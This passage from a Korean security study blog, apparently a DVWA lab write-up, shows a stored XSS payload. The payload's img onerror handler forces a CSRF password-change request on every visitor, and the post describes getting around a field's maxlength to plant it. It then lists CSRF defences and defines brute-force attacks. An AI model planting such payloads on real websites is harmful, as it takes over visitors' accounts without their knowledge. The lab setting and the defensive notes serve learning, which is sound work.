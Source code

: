 잘못된 이미지 경로를 지정하여 에러를 발생하게하고 에러 발생 시 사용자 패스워드 변경 시키는 URL을 강제 Request 시키는 코드를 통해 XSS 취약점이 존재하는 페이지에 접속 시 마다 패스워드가 변경되게 만들어보자.

```
<img src="x" onerror='this.src="http://172.30.1.7/vulnerabilities/csrf/?password_new=TEST123&password_conf=TEST123&Change=Change"'>
```


![](https://velog.velcdn.com/images/hs1430/post/050d825d-149e-4255-a769-d510204b4ab0/image.png)

Message 칸에 코드를 넣으려 했으나 칸수가 모자라 실패하였다.
Elements를 살펴본 결과 maxlength 값을 조정하면 될것 같았다.

![](https://velog.velcdn.com/images/hs1430/post/7c0df669-17e3-4647-bb80-53ff624251b1/image.png)

maxlength 값을 500으로 늘리니까 글자수 제한이 늘어나서
나머지 코드도 입력이 잘된다.


![](https://velog.velcdn.com/images/hs1430/post/d804e3c3-0928-4676-ab74-d09ed45e257c/image.png)

코드를 입력하여 게시글을 작성하게되면, 해당 사이트에 방문한 유저는
우리가 짠 코드에 노출되어버린다.

위의 사진은
```
<img src="x" onerror='this.src="http://172.30.1.7/vulnerabilities/csrf/?password_new=TEST123&password_conf=TEST123&Change=Change"'>
```
에서 TEST123 부분을 원래 비밀번호인 password로 입력한 결과값이다.
방문할때마다 비밀번호가 password로 자동으로 바뀌게 되는 모습을 볼 수 있다.

추가 예제

```
<img src="http://asq.kr/RGQQXKMuyErhy" onerror=alert("CSRF_TEST")>
```

---

## CSRF - 해결방법

1. 패스워드 변경시 공격자가 모르는 정보인 **사용자의 현재 비밀번호**를 같이 입력하게 한다.

2.  2차 인증 수단 등의 본인 인증 확인 절차를 가진다. (CSRF TOKEN)

---

## Brute Force


암호학에서 무차별 대입 공격(영어: brute-force attack)은 특정한 암호를 풀기 위해 가능한 모든 값을 대입하는 것을 의미한다.

대부분의 암호화 방식은 이론적으로 무차별 대입 공격에 대해 안전하지 못하며, 충분한 시간이 존재한다면 암호화된 정보를 해독할 수 있다.

하지만 대부분의 경우 모든 계산을 마치려면 실용적이지 못한 비용이나 시간을 소요하게 되어, 공격을 방지하게 한다.
(비밀번호를 일정횟수 틀리면 일정시간동안 입력을 못하게 하는 기능,
아예 계정을 잠그는 기능, 로봇인지 아닌지 확인하는 기능, 보안문자 입력 기능
등이 이에 해당한다.)
